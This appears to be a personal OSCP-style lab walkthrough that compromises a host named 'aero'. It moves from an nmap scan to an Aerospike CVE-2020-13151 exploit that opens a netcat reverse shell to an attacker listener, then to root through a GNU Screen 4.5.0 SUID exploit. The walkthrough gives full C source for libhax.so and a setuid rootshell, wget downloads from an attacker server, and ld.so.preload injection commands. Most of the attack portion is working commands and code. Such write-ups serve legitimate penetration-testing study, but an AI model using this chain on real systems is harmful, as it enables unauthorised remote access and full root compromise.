





# Nmap

```bash
nmap -A -T4 -p 21,22,80,81,443,3000,3001,3003,3306,5432 192.168.155.143

#Results
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-29 18:16 +0000
Nmap scan report for 192.168.155.143
Host is up (0.096s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 23:4c:6f:ff:b8:52:29:65:3d:d1:4e:38:eb:fe:01:c1 (RSA)
|   256 0d:fd:36:d8:05:69:83:ef:ae:a0:fe:4b:82:03:32:ed (ECDSA)
|_  256 cc:76:17:1e:8e:c5:57:b2:1f:45:28:09:05:5a:eb:39 (ED25519)
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
81/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Test Page for the Nginx HTTP Server on Fedora
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp  open  http       Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  ppp?
3001/tcp open  nessus?
3003/tcp open  cgms?
3306/tcp open  mysql      MySQL (unauthorized)
5432/tcp open  postgresql PostgreSQL DB 12.9 - 12.13
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=aero
| Subject Alternative Name: DNS:aero
| Not valid before: 2021-05-10T22:20:48
|_Not valid after:  2031-05-08T22:20:48
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3003-TCP:V=7.98%I=7%D=3/29%Time=69C96C7F%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1,"\n")%r(GetRequest,1,"\n")%r(HTTPOptions,1,"\n")%r(RTSPReq
SF:uest,1,"\n")%r(Help,1,"\n")%r(SSLSessionReq,1,"\n")%r(TerminalServerCoo
SF:kie,1,"\n")%r(Kerberos,1,"\n")%r(FourOhFourRequest,1,"\n")%r(LPDString,
SF:1,"\n")%r(LDAPSearchReq,1,"\n")%r(SIPOptions,1,"\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.2 - 4.14 (91%), Android 10 - 12 (Linux 4.14 - 4.19) (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.0 - 5.14 (91%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (91%), Linux 4.19 (90%), OpenWrt 21.02 (Linux 5.4) (90%), OpenWrt 22.03 (Linux 5.10) (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: 127.0.0.2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   93.24 ms 192.168.45.1
2   92.52 ms 192.168.45.254
3   92.61 ms 192.168.251.1
4   92.81 ms 192.168.155.143

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.70 seconds
```

## Research Unknown Ports

```bash
# googled 
port 3000 aero

# Discovered common application named Aerospike runs on port 3000 and 3001 and 3002

```


## Google aerospike exploit

```bash
https://github.com/b4ny4n/CVE-2020-13151

```


## Run exploit
```bash
cd ~/oscp/OSCP_A/CVE-2020-13151-master

# Exploit
cve2020-13151.py [-h] [--ahost AHOST] [--aport APORT] [--namespace NAMESPACE] [--setname SETNAME] [--dummystring DUMMYSTRING] [--pythonshell] [--netc
atshell] [--lhost LHOST] [--lport LPORT] [--cmd CMD] [--udfpath UDFPATH]                                                                                    
cve2020-13151.py: error: unrecognized arguments: 192.168.155.143 3000  

# Attempt #2
python3 cve2020-13151.py --ahost 192.168.155.143 --aport 3000 --pythonshell --lhost 192.168.45.244 --lport 4444

# Start Listner
nc -nvlp 4444

# No connection established.

# Attempt #3
python3 cve2020-13151.py --ahost 192.168.155.143 --aport 3000 --netcatshell --lhost 192.168.45.244 --lport 53

# Start listener on new port
nc -lvnp 53 

# Shell established
# Grab flag for user aero
```


## Priv Esc
## SUID Binary Enum
```bash
find / -perm -u=s -type f 2>/dev/null

# Results
/usr/bin/screen-4.5.0

# Searchsploit 
searchsploit screen 4.

# Results
GNU Screen 4.5.0 - Local Privilege Escalation                                                                             | linux/local/41154.sh

# Download
searchsploit -m 41154.sh

# Inspect File
File requires something called libhax.so and rootshell to run.

# Download libhax.so and rootshell
https://github.com/jebidiah-anthony/htb_flujab
```


```bash
# Modify libhax.so

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
```bash

# Modify rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL);
}
```
## Compile scripts

```bash
gcc -fPIC -shared -ldl -o ~/oscp/OSCP_A/libhax.so ~/oscp/OSCP_A/libhax.c

gcc -o ~/oscp/OSCP_A/rootshell ~/oscp/OSCP_A/rootshell.c -static

```

## Transfer Files

```bash
# Host file server
python3 -m http.server 80

# On target machine
cd /tmp

wget http://192.168.45.244/libhax.so

wget http://192.168.45.244/rootshell

# Exploit

cd /etc
umask 000
screen-4.5.0 -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen-4.5.0 -ls
/tmp/rootshell
id
```
